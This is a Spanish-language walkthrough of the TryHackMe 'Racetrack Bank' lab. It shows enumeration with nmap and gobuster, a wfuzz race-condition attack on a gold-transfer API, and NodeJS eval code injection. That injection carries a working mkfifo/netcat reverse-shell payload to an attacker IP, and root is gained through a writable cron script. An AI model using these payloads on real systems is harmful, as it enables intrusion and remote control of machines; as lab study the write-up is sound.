










TryHackMe - Racetrack Bank

Contenido
| Titulo | Racetrack Bank |
|---|---|
| Room | Racetrack Bank |
| Info | It’s time for another heist. |
| Puntos | 110 |
| Dificultad | Dificil |
| Maker | deltatemporal |
NMAP
Escaneo de puertos tcp, nmap nos muestra el puerto http (80) y el puerto ssh (22) abiertos.
# Nmap 7.80 scan initiated Tue May 12 17:18:37 2020 as: nmap -sV -o nmap_scan_mini racetrackbank.thm
Nmap scan report for racetrackbank.thm (10.10.163.203)
Host is up (0.36s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 12 17:20:04 2020 -- 1 IP address (1 host up) scanned in 86.52 seconds
HTTP
En el puerto 80 encontramos una pagina en la que vemos una pagina sencilla 
GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos.
root@upset:~/thm/racetrackbank# gobuster dir -u http://racetrackbank.thm/ -w /usr/share/wordlists/dirb/common.txt -q -t 25 -x php,html,txt
/create.html (Status: 200)
/home.html (Status: 302)
/Home.html (Status: 302)
/images (Status: 301)
/Images (Status: 301)
/Index.html (Status: 200)
/index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/Login.html (Status: 200)
/purchase.html (Status: 302)
Creamos una cuenta en la pagina y al iniciar sesion nos encontramos con un mensaje en el que indica que nos han dado 1 Gold y en la parte superior derecha vemos la cantidad.

Tambien vemos la pagina de Purchase y Give Gold, en la primera podemos comprar una cuenta premium, en la segunda podemos regalar a un usuario Golds segun la cantidad que querramos.


Al analizar el codigo fuente de estas paginas, encontramos que existe una tercera pagina premiumfeatures.html en la cual no tenemos acceso.

Analizamos las peticiones con Burpsuite y vemos que en el header de la respuesta Express por lo que podemos deducir que la pagina esta corriendo en NodeJS.

Transferencia Asincrona GOLD - WFUZZ
Creamos una segunda cuenta, para poder regalar Gold a esta desde la primera cuenta. Le damos 1 Gold a pika desde test, y al hacer esto, test se queda en 0 y pika tiene 2, entonces, dependiendo de cuantas Gold tengamos, esa cantidad podemos regalar, hay que mencionar que se tarda en realizar la transaccion.

Hasta este punto, no habia otra parte en donde podriamos realizar alguna explotacion, por lo que podríamos crear 10 mil cuentas y utilizar esas cuentas para dar a una sola los 10,000 Gold para comprar una cuenta premium y ver lo que hay ahí pero no seria lo mejor.
Regresamos y revisamos el nombre de la maquina para ver si tenemos una alguna pista como en la maquina Mango - HackTheBox que en su nombre nos indicaba la base de datos Mongo, en el caso de esta maquina nos menciona Racetrack que al investigar acerca de este nombre podría hacer referencia al paquete racetrack - npm que se encarga de verificar las peticiones asincronas.
Haciendo referencia a la funcionalidad Asíncrona del paquete, utilizamos wfuzz para realizar multiples peticiones en las que realizamos una transferencia de Gold de una cuenta a otra. Utilizamos un diccionario en el cual tenemos mil lineas con el numero 1 para poder utilizar en el parametro FUZZ necesario en wfuzz. Pero primero capturamos la peticion de transferencia y eliminamos los elementos del header que no son necesarios, la sintaxis quedaría de la siguiente forma:
Transaccion de pika a test
wfuzz -u http://racetrackbank.thm/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A1WZ2nxR7AU8055fkeBW_cLlTaLFVV6Sk.zoPUEOLRtqGfnyd291VT%2BJuzMlkFKT6NAxVjuSExNsY" -d "user=test&amount=FUZZ"
Al ejecutar esto obtenemos multiples respuestas 302, en donde las primeras diez tienen menos caracteres (agregamos --sh 54 a wfuzz) que las siguientes.

Revisamos la cuenta de test y vemos que tenemos más Gold, por lo que es muy probable que tenga la funcionalidad asincrona.

Ahora realizamos una transaccion de test a pika y volvemos a hacer lo mismo con wfuzz (aumentamos 5 en 5 nuestro diccionario) asi hasta lograr los Gold necesarios para una cuenta premium en la cuenta test. Por alguna razon al realizar esta “explotacion” en ambas cuentas aumentan los Gold.

BRIAN USER - RCE NodeJS
Hacemos la compra de una cuenta Premium, y podemos acceder a la pagina Premium Features donde encontramos un input que al ingresar una operacion matematica nos devuelve el resultado.

Utilizamos el payload process.cwd() para verificar el PATH donde esta la pagina ejecutandose, nos devuelve la carpeta principal de uno de los usuarios, el payload funciona y podemos intentar obtener una shell utilizando require().

Ponemos a la escucha nuestro netcat (rlwrap nc -lvp 1338) y ejecutamos nuestro payload en la pagina require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1338 >/tmp/f') utilizando burpsuite, codificamos nuestro payload.
Logramos obtener una shell y nuestra flag user.txt.

Vemos el codigo fuente de la pagina PremiumFeatures donde eval esta presente.

Tambien encontramos las credenciales de la base de datos 
PRIVILEGE ESCALATION
Dentro de la maquina encontramos un binario el cual tiene permisos root, pero al anlizarlo y ejecutarlo no se pudo hacer mayor cosa.

Utilizamos pspy para ver los cron job, y encontramos uno que ejecuta cleanupscript.sh que se encuentra en /home/brian/cleanup/.

Cambiamos de nombre al archivo, creamos uno nuevo con el mismo nombre y agregamos un comando para obtener la flag root.txt, esperamos y obtuvimos el contenido.
 
Agregamos una shell inversa al archivo y obtenemos una shell con usuario root. 